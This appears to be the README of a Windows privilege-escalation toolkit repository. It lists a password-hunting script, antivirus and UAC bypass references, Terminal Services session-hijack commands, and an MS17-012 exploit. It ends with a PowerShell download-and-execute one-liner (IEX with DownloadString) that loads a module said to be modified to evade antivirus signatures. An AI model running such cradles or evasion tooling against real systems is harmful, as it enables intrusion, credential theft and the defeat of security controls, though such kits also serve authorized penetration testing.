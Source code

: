 # WinEscalation-

Scan.ps1:
Powershell script used to determine what methods can be used to escalate privileges and find passwords (admin and non-admin privs).


AVbypass.txt:
List of URLs discussing different methods of bypassing AV.

TScommands.txt:
Commands on how to hijack a TS session on a box (must have admin rights).

UACbypass.txt:
URLs discussing different methods of bypassing UAC.


MS17-012/CVE-2017-0100:
Start-ProcessInSession.ps1 & MS17-012.cs - non-priveleged session hijack



# Author: Scott Sutherland 2013, NetSPI
# Version: Get-SPN version 1.1
# Requirements: Powershell v.3
# Comments: The technique used to query LDAP was based on the "Get-AuditDSDisabledUserAcount" 
# function found in Carols Perez's PoshSec-Mod project.#
# Modded to bypass AV sig detection.
Get-SPM.psm1: 
IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/pand0rausa/WinEscalation-/master/Get-SPM.psm1")


